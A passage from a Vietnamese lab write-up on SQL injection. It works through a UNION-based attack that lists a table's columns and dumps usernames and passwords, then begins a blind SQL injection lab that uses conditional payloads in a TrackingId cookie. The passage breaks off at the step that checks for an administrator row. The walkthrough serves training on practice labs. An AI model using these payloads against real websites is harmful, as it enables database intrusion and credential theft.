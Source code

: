   - Thấy cái tên này cũng khá khả nghi. Giờ ta muốn xem thông tin các cột trong 1 table, ta dùng lệnh:

```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_jarqmx'```

- Webpage sau khi inject:

![alt text](./img/lab9-6.png)

==> Mình tìm được 2 cột có tên khá khả nghi 

- Đọc 2 cột đó với payload:

```' UNION SELECT username_dmrlcp, password_hghdws FROM users_jarqmx--```

Ta tìm được tài khoản và mật khẩu của admin:

![alt text](./img/lab9-7.png)



## Lab: Lab: Blind SQL injection with conditional responses

**END goal** Tìm ra mật khẩu của tài khoản administrator và đăng nhập.

- Mình inspect và biết được ở trường ```cookie``` có 2 giá trị là ```session``` và ```trackingId```, ban đầu trang web có giao diện:     

![alt text](./img/lab10-1.png)

- Thử bấm vào 1 category bất kỳ, quan sát trang web:     

![alt text](./img/lab10-2.png)

Ta thấy có text: ```Welcome back!``` hiện ra.

- Ta đoán trackingId ở cookie này có thể là 1 giá trị dùng để theo dõi xem liệu máy client của mình đã truy cập trang web này lần nào chưa. Khi máy được truy cập lần đầu, sẽ được cấp 1 ID, mỗi khi request chứa trackingId được chạy, nó sẽ xác định xem liệu có phải người dùng cũ không:    

```SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'```

- Bước 1: Xác định suy đoán của mình:     

  - Ban đầu khi chưa chỉnh sửa trackingId:
    ![alt text](./img/lab10-3.png)

  - Thử thêm vào sau trackingId 1 đoạn như ```' AND 1 = 0--``` (Nhớ là có URL encode), mục đích là để trả về false xem hành vi của trang web:

    ![alt text](./img/lab10-4.png)

==> Xác định suy đoán là đúng!

- Bước 2: Xác định xem có tồn tại table là ```users``` không với payload: ```' AND (select 'x' FROM users LIMIT 1) = 'x'--``` (Có URL-encoded)

![alt text](./img/lab10-5.png)

==>Có tồn tại bảng ```users```

- Bước 3: Xác định xem username tên là administrator có tồn tại trong table users không:

```SQL
' AND (SELECT username FROM users WHERE username = 'administrator') = 'administrator'--
```